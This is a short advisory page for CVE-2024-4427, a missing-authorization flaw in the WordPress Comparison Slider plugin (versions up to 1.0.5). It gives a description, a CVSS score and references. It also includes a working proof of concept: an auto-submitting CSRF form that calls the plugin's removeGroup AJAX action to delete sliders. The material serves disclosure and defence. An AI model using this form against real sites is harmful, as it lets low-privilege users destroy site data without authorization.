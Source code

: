 ```yaml
---
layout: page
title: CVE-2024-4427
subtitle: Comparison Slider <= 1.0.5 - Missing Authorization
---
```

## Description
The Comparison Slider plugin for WordPress is vulnerable to unauthorized modification of data due to a missing capability check on several AJAX actions in all versions up to, and including, 1.0.5. This makes it possible for authenticated attackers, with subscriber access or above, to change plugin settings and perform other actions such deleting sliders.

## Severity
  4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N)

## Affected Version
    <= 1.0.5

## PoC :
```
Use this csrf & using subscriber account

<html>
  <!-- Made by eneriiiii<3 / twitter.com/ener1_ -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="mod" value="comparison" />
      <input type="hidden" name="action" value="removeGroup" />
      <input type="hidden" name="listIds&#91;&#93;" value="1" />
      <input type="hidden" name="pl" value="ics" />
      <input type="hidden" name="reqType" value="ajax" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/comparison-slider/comparison-slider-105-missing-authorization
- https://www.cve.org/CVERecord?id=CVE-2024-4427






